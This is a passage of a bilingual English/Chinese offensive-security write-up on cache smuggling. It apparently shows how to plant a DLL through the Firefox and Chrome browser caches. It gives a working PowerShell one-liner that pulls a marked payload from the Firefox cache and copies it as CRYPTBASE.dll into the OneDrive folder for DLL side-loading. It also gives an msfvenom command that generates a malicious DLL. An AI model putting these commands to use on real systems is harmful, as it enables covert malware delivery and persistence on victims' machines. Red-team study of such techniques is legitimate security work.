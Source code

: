 The following PowerShell one liner will look for the DLL in the cache directory and move it to an appropriate place, such as the OneDrive folder in order to launch a DLL side loading attack:  
以下 PowerShell 单行将在缓存目录中查找 DLL，并将其移动到适当的位置，例如 OneDrive 文件夹，以便发起 DLL 端加载攻击：

```powershell
foreach($f in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")){gci $f -r|%{if(Select-String -Pattern "DLLHERE" -Path $_.FullName){cp $_.FullName $env:LOCALAPPDATA\Microsoft\OneDrive\CRYPTBASE.dll}}}
```

Next time OneDrive is launched, your malware will be too!  
下次启动 OneDrive 时，您的恶意软件也会启动！

# IV/ What about Google Chrome  
IV/ 谷歌浏览器呢

The way Google Chrome stores files in its cache is a little more complicated to exploit. Indeed, files are not stored individually, they are stored in multiple databases located in the %LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cache\\Cache\_Data folder:  
Google Chrome 在其缓存中存储文件的方式有点复杂。事实上，文件不是单独存储的，它们存储在位于 %LOCALAPPDATA%\\Google\\Chrome\\User Data\\Default\\Cache\\Cache\_Data 文件夹中的多个数据库中：

![](assets/1701827279-e0d7a28cd28a98c0c45f52c533c67f01.png)

As such, retrieving cached files means manipulating the database and this is not easy, especially with PowerShell. At this point I thought it was impossible to weaponize this technique for Chrome until @shifttymike sent me this message:  
因此，检索缓存文件意味着操作数据库，这并不容易，尤其是在使用 PowerShell 时。在这一点上，我认为不可能将这种技术武器化到 Chrome 中，直到@shifttymike 给我发了这条消息：

![](assets/1701827279-fb5c733d8f2b2d1b959d7b04fbff1c2d.png)

And that is brilliant! Here is how I put up things together. First we create the DLL via msfvenom:  
这太棒了！这是我如何把东西放在一起的。首先，我们通过 msfvenom 创建 DLL：

```bash
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f dll > calc.dll
```
